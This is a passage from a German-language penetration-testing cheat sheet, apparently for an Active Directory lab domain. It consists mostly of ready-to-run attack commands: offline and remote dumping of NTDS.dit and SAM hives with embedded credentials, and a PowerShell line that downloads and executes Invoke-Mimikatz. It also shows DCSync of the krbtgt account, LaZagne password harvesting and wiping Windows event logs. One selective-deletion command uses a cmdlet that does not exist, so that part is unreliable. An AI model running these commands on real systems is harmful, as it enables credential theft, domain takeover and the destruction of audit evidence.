 #### Impacket secretsdump offline
```bash
# NTDS.dit offline analysieren
secretsdump.py -ntds ntds.dit -system system.hiv LOCAL
```

### 6.2 Registry & SAM Dumps

#### Remote Registry Access
```bash
# Registry Hives remote dumpen
reg.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 query -keyName HKLM\\SAM
reg.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11 save -keyName HKLM\\SAM -o sam.save

# Mit Impacket
secretsdump.py -sam sam.save -system system.save LOCAL
```

### 6.3 Credential Manager & Browser Extraction

#### Mimikatz via PowerShell
```powershell
# Invoke-Mimikatz (PowerSploit)
PS> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
PS> Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
PS> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
PS> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:north.sevenkingdoms.local /user:krbtgt"'
```

#### LaZagne for Browser/Application Passwords
```bash
# LaZagne herunterladen
wget https://github.com/AlessandroZ/LaZagne/releases/latest/download/lazagne.exe

# Auf Target-System ausführen (via WinRM/C2)
.\lazagne.exe all -oN
```

---

## 7. Defense Evasion & Anti-Forensics

### 7.1 Event Log Manipulation

#### Windows Event Logs löschen
```powershell
# Spezifische Event Logs löschen
PS> wevtutil cl Security
PS> wevtutil cl System
PS> wevtutil cl Application

# Selective Event Deletion (PowerShell)
PS> Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624} | Where-Object {$_.Message -like "*jon.snow*"} | ForEach-Object {Remove-WinEvent -EventId $_.RecordId}
```
